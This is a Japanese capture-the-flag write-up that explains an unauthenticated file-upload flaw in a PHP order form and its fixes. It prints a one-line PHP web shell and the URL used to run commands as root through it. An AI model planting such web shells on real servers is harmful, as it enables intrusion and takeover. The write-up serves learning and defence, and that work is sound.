







# Corporate Complexity (Flag 1) — Write-up

**CyberSCI 2025–26 / Web Security**

> Web アプリケーションのファイルアップロード機能に潜む認証バイパス／任意コード実行（RCE）の脆弱性を、ソースコード解析に基づいて特定し、Web Shell の設置によって root 直下の Flag を取得した記録です。攻撃の再現にとどまらず、**なぜこの脆弱性が成立するのか**、そして**防御側としてどう修正すべきか**までを整理しています。

---

## References

- **Official Challenge Files**: [CyberSCI / PastChallenges — nationals-2025-26 / defence / config](https://github.com/CyberSCI/PastChallenges/tree/main/challenges/nationals-2025-26/challenges/defence/config)

> 本リポジトリには競技の問題ファイル一式は含めていません。問題環境のソースコードは、上記のCyberSCI公式アーカイブを参照してください。本Write-upでは、解説に必要な該当箇所のみを引用しています。自作した Web Shell（`shell.php`）のみ、本リポジトリに含めています。

---

## 1. 概要

| 項目 | 内容 |
|---|---|
| 課題 | Corporate Complexity（3段階構成のうち Flag 1） |
| 対象 | 受注フォーム（`order.php`）を備えた Web アプリケーション |
| 種別 | 認証バイパス + 無制限ファイルアップロード → 任意コード実行（RCE） |
| 結果 | Web Shell を設置し、root 権限で隔離された `/flag.txt` を取得 |
| 検証環境 | Docker（大会終了後、ローカルで再現・検証） |

> 注：本課題は3段階で構成されています。本Write-upで扱うのは、自力で解析・取得した **Flag 1** です。Flag 2・Flag 3 については末尾の「補足」を参照してください。

---

## 2. 環境調査

### 2-1. 全体構成の把握

公式の問題環境（`docker-compose.yml`）から、システムが以下のコンテナで構成されていることを確認しました。

- `frontend`：受注フォーム（Web 公開・ポート 8080）
- `backend`：注文処理 API
- `db_hr` / `db_orders`：2つの MySQL データベース（HR / 受注）
- `customer_bot`：定期的に動作する顧客ボット

```text
ブラウザ
   │ http://localhost:8080/order.php
   ▼
frontend コンテナ（Apache + PHP 8.1）
   ├── /var/www/html/order.php
   ├── /var/www/html/uploads/   ← アップロード先（Web公開ディレクトリ内）
   │
   └── /flag.txt                ← Flag本体（ルート直下に隔離）
```




### 2-2. フロントエンドの素性確認

ローカルでアクセスし、ブラウザの開発者ツールでレスポンスヘッダを確認しました。

- `Server: Apache/2.4.65 (Debian)`
- `X-Powered-By: PHP/8.1.34`

→ frontend は **PHP 8.1 が動作する Apache Web サーバー**であると判明。



### 2-3. Flag の所在と権限の確認

frontend コンテナ内に入り、Flag の場所と Apache の実行権限を確認しました。


- Apache は **root 権限で動作**しており、`www-data` などへの権限制限がかかっていない
- `flag.txt` は Web 公開ディレクトリ（`/var/www/html`）ではなく、**Linux ファイルシステムの最上層（`/` 直下）に隔離**して配置されている

そのため、URL から直接 Flag を参照することはできません。パストラバーサルも試みましたが、こちらは成立しませんでした。

```text
http://localhost:8080/../../../../flag.txt   →  Not Found
```



> **この時点での着眼点**：Apache が root で動いている ＝ もしサーバー上で任意コマンドを実行できれば、root 直下の `flag.txt` も読める可能性がある。

---

## 3. 脆弱性の特定（ソースコード解析）

frontend からアクセスできる `login.php` と `order.php` のコードを精査しました。

### 3-1. 不審点：未認証でも受注ページにアクセスできる

`login.php` 自体に明確な脆弱性はなく、通常のログインフローでした。しかし、**ログイン後に遷移するはずの `order.php` に、未ログインのままアクセスできてしまう**ことに気づきました。そこで `order.php` を重点的に確認しました。

### 3-2. `order.php` の核心部分（公式ソースより引用）

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $token = $_COOKIE['token'] ?? '';
    // ...（各種パラメータ受け取り）...

    // ① 認証チェックより前に、ファイルが保存されてしまう
    if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
        $extension   = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
        $checksum    = md5_file($_FILES['file']['tmp_name']);
        $file_name   = $checksum . '.' . $extension;
        $target_path = $upload_dir . '/' . $file_name;
        move_uploaded_file($_FILES['file']['tmp_name'], $target_path); // ← 実体を保存
    }

    // ② このあとで初めて認証・注文処理が走る
    $res = submit_order_request($backend, $token, $order);
    // ...
}
```

### 3-3. 特定した3つの問題点

コードと `docker-compose.yml`（`UPLOAD_DIR: /var/www/html/uploads`）を突き合わせ、以下を確認しました。

1. **認証前のファイル保存**：`submit_order_request()` によるトークン検証（ユーザー認証）が走る**前**に、`move_uploaded_file()` でファイルの実体が保存される。注文の成否に関係なく、**未認証でファイルを設置できる**。
2. **アップロード先が Web 公開ディレクトリ内**：保存先 `/var/www/html/uploads/` は Web から直接アクセス可能。しかもディレクトリ権限は `0755`（読み取り・実行可能）。
3. **拡張子・内容の検証なし**：アップロードファイルの拡張子や内容を一切チェックしていないため、`.php` ファイルをそのまま設置できる。

→ これらが組み合わさることで、**未認証で任意の PHP ファイルを設置し、Web 経由で実行できる**＝任意コード実行（RCE）が成立します。Apache は root 動作なので、実行されるコマンドも root 権限になります。

---

## 4. 攻撃の実践

### 4-1. Web Shell の設置

`order.php` の添付ファイル欄から、以下の最小限の Web Shell（`shell.php`）をアップロードしました。

```php
<?php system($_GET['cmd']); ?>
```

### 4-2. 保存ファイル名の特定

コード上、ファイル名は `md5_file()` でハッシュ化されて保存されます。そのため、アップロードした `shell.php` の MD5 値から保存名を特定しました。

```text
shell.php の MD5 → 3a9f80e2a01d6f5248e860cd25efa02c.php
```



### 4-3. Web Shell の動作確認

Web 経由で当該ファイルにアクセスすると、`cmd` パラメータ未指定の警告が表示され、PHP として実行されていることを確認しました。

```text
Warning: Undefined array key "cmd" ...
```

→ ファイルが「ただのテキスト」ではなく **PHP として実行**されている＝RCE 成立。



### 4-4. Flag の取得

root 直下の `flag.txt` は事前調査で把握済みだったため、`cmd` パラメータでその内容を読み出しました。

```text
http://localhost:8080/uploads/3a9f80e2a01d6f5248e860cd25efa02c.php?cmd=cat%20/flag.txt
```

→ **Flag 取得成功。**



> ※ 大会は終了済みのため、本検証はローカル環境で再現したものです。表示される Flag 値はローカル用のものですが、競技サーバー稼働環境でも同一手法で Flag 1 を取得可能です。

---

## 5. 修正案（防御側の視点）

この脆弱性は、複数の不備が重なって成立しています。守る側としては、以下のいずれか（できれば複数）を実施すべきです。

### 案1：認証（トークン検証）の通過後にファイルを保存する

ファイル名・パスの「計算」だけ先に行い、**実体の保存（`move_uploaded_file`）は認証成功後**に移動します。これにより、未認証ユーザーがファイルを設置できなくなります。

```php
// ファイル名は先に計算（保存はしない）
$file_name = null;
if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $extension = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
    $checksum  = md5_file($_FILES['file']['tmp_name']);
    $file_name = $checksum . '.' . $extension;
}

$order['file'] = $file_name;
$res = submit_order_request($backend, $token, $order);

// 認証・注文が成功してから初めて実体を保存
if (isset($res['status'])) {
    if ($file_name !== null) {
        move_uploaded_file($_FILES['file']['tmp_name'], $upload_dir . '/' . $file_name);
    }
    $message = 'Order submitted';
}
```

### 案2：アップロード先を Web 公開ディレクトリの外に置く

保存先を `/var/www/html/uploads`（公開領域）ではなく、`/var/uploads` のような**Web から直接アクセスできない場所**に変更します。これにより、たとえファイルが設置されても URL から実行できません。

```yaml
environment:
  UPLOAD_DIR: /var/uploads   # 公開ディレクトリ外へ
```

### 案3：アップロードディレクトリで PHP 実行を無効化する

公開ディレクトリ内に置かざるを得ない場合は、`uploads/` に `.htaccess` を設置し、PHP の実行を止めます。設置されたファイルは「ただのファイル」として扱われ、コードとして実行されません。

```apache
# uploads/.htaccess
# このフォルダ内ではPHPを実行しない（ただのファイルとして扱う）
php_flag engine off
```

> 加えて、根本対策として「拡張子・MIME タイプのホワイトリスト検証」「Apache を root 以外の最小権限ユーザーで動作させる」ことも有効です。

---

## 6. 補足：Flag 2・Flag 3 について

本課題は3段階で構成されており、本Write-upでは自力で解析・取得した **Flag 1** を扱いました。

Flag 2・Flag 3 は、バックエンドの **SQL インジェクション**を起点とする、より高度な内容でした。具体的には、注文 API の `quantity` パラメータに対する time-based blind SQLi による認証情報の抽出、stacked query と `INTO OUTFILE` を用いた root 権限ファイルの生成、cron を悪用した権限昇格などを要します。

大会時には解ききれませんでしたが、競技後に Docker 検証環境を用いて、**Flag に至る攻撃ルートの理解**に取り組みました。現時点で、攻撃の流れ（SQLi で1文字ずつ情報を抽出する手法、ファイル書き込みと cron を悪用した権限昇格の発想など）は把握できたものの、自力でゼロから再現・説明できる段階には至っていません。今後、SQL インジェクションと権限昇格を体系的に学習し、こうした多段攻撃を自力で再現・説明できるレベルを目指しています。

> **分からない技術をそのままにせず、攻撃が成立する原理を理解するところまで突き詰める**ことを、自分の学習姿勢として大切にしています。

---

## 7. 使用環境・備考

- 検証環境：Docker（ローカル再現）
- 対象技術：PHP 8.1 / Apache 2.4 / MySQL
- 本Write-upの作成にあたり、ソースコードの解釈確認および文章の校正に AI を活用しました。脆弱性の特定・攻撃の再現・修正案の検討は筆者自身が実施しています。

---

### 学びのまとめ

この課題で最も重要だったのは、**「認証の順序」という設計上の1行のミスが、システム全体の致命的な侵害（root RCE）につながる**という点です。コードを上から下へ読み、「認証より先にファイルが保存されている」という違和感に気づけたことが突破口になりました。攻撃者の視点でコードを読む経験は、防御側（フォレンジック・脆弱性診断）として「どこに穴ができやすいか」を見抜く力に直結すると感じています。

---

## Repository Structure

```text
.
├── README.md          # 本Write-up
├── shell.php          # 検証に使用した Web Shell（自作）
└── images/            # スクリーンショット（Flag値はマスク済み）
```
